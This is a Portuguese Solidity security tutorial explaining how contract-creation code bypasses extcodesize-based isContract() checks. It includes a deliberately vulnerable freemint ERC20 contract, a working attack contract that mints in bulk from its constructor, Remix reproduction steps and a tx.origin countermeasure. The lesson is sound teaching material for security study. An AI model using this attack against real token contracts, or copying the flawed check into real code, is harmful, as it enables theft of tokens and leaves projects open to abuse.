 # Segurança do Contrato Solidity: S08. Bypass da Verificação do Contrato

Recentemente, tenho revisado meus conhecimentos em Solidity, reforçando os detalhes e escrevendo um "Guia Simplificado do WTF Solidity" para iniciantes (os programadores experientes podem buscar outros tutoriais). Atualizarei o guia com 1-3 lições por semana.

Twitter: [@0xAA_Science](https://twitter.com/0xAA_Science) | [@WTFAcademy_](https://twitter.com/WTFAcademy_)

Comunidade: [Discord](https://discord.gg/5akcruXrsk) | [Grupo no WeChat](https://docs.google.com/forms/d/e/1FAIpQLSe4KGT8Sh6sJ7hedQRuIYirOoZK_85miz3dw7vA1-YjodgJ-A/viewform?usp=sf_link) | [Site oficial wtf.academy](https://wtf.academy)

Todo o código e tutoriais estão disponíveis no GitHub: [github.com/AmazingAng/WTFSolidity](https://github.com/AmazingAng/WTF-Solidity)

---

Nesta lição, vamos falar sobre como contornar a verificação do comprimento do contrato e apresentar métodos de prevenção.

## Bypass da Verificação do Contrato

Muitos projetos freemint utilizam a função `isContract()` para limitar a chamada do `msg.sender` a apenas contas externas (EOA), e não a contratos. Essa função usa o método `extcodesize` para obter o comprimento do `bytecode` armazenado no endereço (em tempo de execução). Se esse comprimento for maior do que zero, é considerado um contrato; caso contrário, é uma conta EOA (usuário).

```solidity
    // Verifica se é um contrato usando extcodesize
    function isContract(address account) public view returns (bool) {
        // Um endereço com extcodesize > 0 é considerado um contrato
        // Porém, durante a chamada do construtor do contrato, extcodesize é 0
        uint size;
        assembly {
            size := extcodesize(account)
        }
        return size > 0;
    }
```

No entanto, há uma vulnerabilidade: quando um contrato está sendo criado, o `bytecode` de tempo de execução ainda não foi armazenado no endereço, portanto o comprimento do `bytecode` é 0. Isso significa que se colocarmos a lógica no construtor do contrato, podemos contornar a verificação do `isContract()`.

## Exemplo de Vulnerabilidade

Aqui está um exemplo: o contrato `ContractCheck` é um contrato ERC20 freemint, e a função de mintagem `mint()` utiliza a função `isContract()` para impedir chamadas de contrato a fim de evitar a mintagem em massa por programadores. Cada chamada do `mint()` pode criar 100 tokens.
 
```solidity
// Verifica se é um contrato usando extcodesize
contract ContractCheck is ERC20 {
    // Construtor: inicializa o nome e o símbolo do token
    constructor() ERC20("", "") {}
    
    // Verifica se é um contrato usando extcodesize
    function isContract(address account) public view returns (bool) {
        uint size;
        assembly {
            size := extcodesize(account)
        }
        return size > 0;
    }

    // Função de mintagem, apenas chamadas de contas não-contratuais são permitidas (com vulnerabilidade)
    function mint() public {
        require(!isContract(msg.sender), "Contrato não permitido!");
        _mint(msg.sender, 100);
    }
}
```

Vamos criar um contrato de ataque que chama repetidamente a função `mint()` do contrato `ContractCheck` no construtor, realizando a mintagem de 1000 tokens em massa: 

```solidity
// Ataque aproveitando as características do construtor
contract NotContract {
    bool public isContract;
    address public contractCheck;

    // Quando o contrato está sendo criado, extcodesize (comprimento do código) é 0, então não será detectado por isContract().
    constructor(address addr) {
        contractCheck = addr;
        isContract = ContractCheck(addr).isContract(address(this));
        // Isso funcionará
        for(uint i; i < 10; i++){
            ContractCheck(addr).mint();
        }
    }

    // Após a criação do contrato, extcodesize > 0, isContract() consegue detectar
    function mint() external {
        ContractCheck(contractCheck).mint();
    }
}
```

Se nossa hipótese estiver correta, chamadas da função `mint()` no construtor podem contornar a verificação do `isContract()` e realizar a mintagem com sucesso, e o estado da variável `isContract` será definido como `false`. Após a criação do contrato, quando o `runtime bytecode` já estiver armazenado, o `extcodesize > 0` e o `isContract()` serão capazes de evitar a mintagem, resultando em falha ao chamar a função `mint()`.

## Reprodução no Remix

1. Deploy do contrato `ContractCheck`.

2. Deploy do contrato `NotContract`, passando o endereço do contrato `ContractCheck` como parâmetro.

3. Use a função `balanceOf` do contrato `ContractCheck` para verificar o saldo de tokens do contrato `NotContract` como `1000`, indicando um ataque bem-sucedido.

4. Chame a função `mint()` do contrato `NotContract`; como o contrato já foi criado, a chamada da função `mint()` irá falhar.

## Medidas Preventivas

Você pode usar `(tx.origin == msg.sender)` para verificar se o chamador é um contrato. Se o chamador for uma EOA, `tx.origin` e `msg.sender` serão iguais; se forem diferentes, o chamador será um contrato.

```solidity
function realContract(address account) public view returns (bool) {
    return (tx.origin == msg.sender);
}
```

## Conclusão

Nesta lição, discutimos como é possível contornar a verificação do comprimento do contrato e apresentamos métodos preventivos. Se o comprimento do `extcodesize` de um endereço for maior que zero, é um contrato; mas se for zero, o endereço pode ser tanto uma EOA quanto um contrato em processo de criação.

